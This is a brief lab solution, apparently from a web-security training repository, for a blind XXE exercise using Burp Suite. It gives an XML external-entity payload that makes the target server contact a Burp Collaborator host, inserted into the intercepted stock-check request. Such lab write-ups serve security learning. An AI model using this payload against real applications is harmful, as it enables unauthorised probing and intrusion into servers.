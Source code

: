 ![image](https://github.com/udayk01/Web-Security/assets/52235763/4919eaaa-42cd-4e81-8d67-07bf9e9c3d9f)

## Solution:

> Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/udayk01/Web-Security/assets/52235763/bbcb593f-fb75-429d-9501-27fbf7637556)

> Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

```<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>```

![image](https://github.com/udayk01/Web-Security/assets/52235763/521c9dd6-dd99-4ece-948e-2399fdd740ea)

> Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

![image](https://github.com/udayk01/Web-Security/assets/52235763/5eca689e-40f3-434d-8ebf-caa5f98d281c)

> Lab Solved

![image](https://github.com/udayk01/Web-Security/assets/52235763/888d0c23-da0d-4822-b9e0-250ffc34c34b)
